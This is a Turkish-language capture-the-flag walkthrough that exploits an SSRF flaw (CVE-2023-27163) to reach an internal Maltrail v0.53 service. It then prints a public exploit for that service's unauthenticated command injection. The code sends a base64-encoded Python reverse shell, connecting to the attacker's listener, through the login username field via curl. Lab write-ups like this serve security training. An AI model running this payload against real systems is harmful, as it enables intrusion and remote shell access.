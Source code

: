 
#### Exploit

Burada bundan faydalanmak için güzel bir [POC](https://github.com/entr0pie/CVE-2023-27163/blob/main/CVE-2023-27163.sh) var. Port 80'i okumayı denemek için çalıştıracağım:

![Pasted image 20250111002209.png](/img/user/resimler/Pasted%20image%2020250111002209.png)
Sonuçları görmek için ziyaret edebileceğim bir URL veriyor:

http://10.10.11.224:55555/noudql

![Pasted image 20250111002333.png](/img/user/resimler/Pasted%20image%2020250111002333.png)

CSS ve resimler yüklenmiyor, ama en azından Mailtrail v0.53 olduğunu görebiliyorum.

![Pasted image 20250111002534.png](/img/user/resimler/Pasted%20image%2020250111002534.png)

Aynı şeyi 8338'de de deneyeceğim ve aynı uygulama olduğunu göreceğim.


### RCE in Mailtrail

![Pasted image 20250111005703.png](/img/user/resimler/Pasted%20image%2020250111005703.png)

#### Identify

“[Mailtrail](https://github.com/spookier/Maltrail-v0.53-Exploit) exploit” araması yapıldığında, ilk olarak Mailtrail v0.53'te kimliği doğrulanmamış bir kod çalıştırma açığı olan bu repo bulunur. Login sayfası username parametresi için girdiyi sterilize etmiyor, bu da OS command injection'a yol açıyor.


#### Script Analysis

Bu script, istekte bulunmak için curl'ü çağırmak üzere Python'daki os.system'i kullanarak oldukça acemice  hazırlanmıştır:

```
def curl_cmd(my_ip, my_port, target_url):
	
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)
```

Bu, verilen Url artı /login'e basit bir POST isteğidir.

```
def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)
```